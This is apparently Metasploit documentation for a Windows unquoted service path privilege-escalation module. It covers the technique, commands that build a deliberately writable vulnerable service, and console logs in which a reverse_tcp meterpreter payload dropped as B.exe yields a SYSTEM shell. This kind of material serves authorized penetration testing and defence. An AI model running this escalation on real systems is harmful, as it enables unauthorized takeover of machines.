 ## Vulnerable Application

Commonly known as Trusted Service Path, or Unquoted Service path, this exploits a behavior of windows service.
When a service calls an executable, a full path is given.  If the full path contains a space,
Windows will attempt to execute a file up to the space, with `.exe` appended.
If the executable isn't found, it keeps going until the full path or the next space (and repeat).

@sumitvgithub had an excellent write-up on this
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

As is documented in that write-up, if the executable is C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

Windows will attempt to run the following, in order.

  1.  C:\Program.exe
  2.  C:\Program Files\A.exe
  3.  C:\Program Files\A Subfolder\B.exe
  4.  C:\Program Files\A Subfolder\B Subfolder\C.exe
  5.  C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe

To exploit this, we simply need to go in reverse order to see if we're able to write a payload to those locations.
In Win7+ the deeper folders are more likely to succeed based on default Windows permissions for users.

Then, a service restart is required.  Often a user won't be able to do this,
so the payload is left on disk as a reboot or service restart will trigger the payload to launch.

The service will fail to start as long as the payload remains on disk.  Manual cleanup of the payload
is required.

### Creating a Vulnerable Service

This is sourced from @sumitvgithub's write-up
[here](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)

With an administrator command prompt, execute the following:

```
sc create "Some Vulnerable Service" binpath= "C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe" Displayname= "Vuln Service DP" start= auto
mkdir "C:\Program Files\A Subfolder\B Subfolder\C Subfolder"
icacls "C:\Program Files\A Subfolder" /grant "BUILTIN\Users":W
```

This creates a vulnerable service, with `A Subfolder` being vulnerable to user writes.

## Verification Steps

  1. Start msfconsole
  2. Get a user shell
  3. Do: ```use exploits/windows/local/unquoted_service_path```
  4. Do: ```set session #```
  5. Do: ```run```
  6. You should either get a shell, or need to start a `multi/handler` and have the target restarted.

## Options

### QUICK

If only the first service should attempt to be exploited, or all of them (sequentially).  Default is `false`

## Scenarios

### Windows 10 (16299) with Service Listed Above


```
[*] Using exploit/windows/local/unquoted_service_path
resource (unquoted.rb)> setg verbose true
verbose => true
resource (unquoted.rb)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (unquoted.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (unquoted.rb)> setg lport 4444
lport => 4444
resource (unquoted.rb)> set session 1
session => 1
msf5 exploit(windows/local/unquoted_service_path) > 
[*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49696) at 2020-04-10 14:41:32 -0400

msf5 exploit(windows/local/unquoted_service_path) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: MSEDGEWIN10\IEUser
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/unquoted_service_path) > run

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Finding a vulnerable service...
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[-] Request Error extapi_service_query: Operation failed: Access is denied. falling back to registry technique
[+] Found potentially vulnerable service: Some Vulnerable Service - C:\Program Files\A Subfolder\B Subfolder\C Subfolder\SomeExecutable.exe (LocalSystem)
[*] Attempting exploitation of Some Vulnerable Service
[*] Enumerating vulnerable paths
[-] C:\Program Files\A Subfolder\B Subfolder not writable
[+] C:\Program Files\A Subfolder is writable
[*] Placing C:\Program Files\A Subfolder\B.exe for Some Vulnerable Service
[*] Attempting to write 15872 bytes to C:\Program Files\A Subfolder\B.exe...
[+] Manual cleanup of C:\Program Files\A Subfolder\B.exe is required due to a potential reboot for exploitation.
[+] Successfully wrote payload
[*] Launching service Some Vulnerable Service...
[*] Manual cleanup of the payload file is required. Some Vulnerable Service will fail to start as long as the payload remains on disk.
[-] [Some Vulnerable Service] Unhandled error: Could not open service. OpenServiceA error: FormatMessage failed to retrieve the error.
[-] Unable to restart service.  System reboot or an admin restarting the service is required.  Payload left on disk!!!
[*] Exploit completed, but no session was created.
```

Manually start a handler, and restart the service (via GUI) to launch the exploit

```
msf5 exploit(windows/local/unquoted_service_path) > handler -p windows/meterpreter/reverse_tcp -H 1.1.1.1 -P 4444
[*] Payload handler running as background job 1.

[*] Started reverse TCP handler on 1.1.1.1:4444 
msf5 exploit(windows/local/unquoted_service_path) > [*] Sending stage (180291 bytes) to 2.2.2.2
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49708) at 2020-04-10 14:43:26 -0400

msf5 exploit(windows/local/unquoted_service_path) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer        : MSEDGEWIN10
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

The most important part!!!

```
meterpreter > rm "C:\\Program Files\\A Subfolder\\B.exe"

```
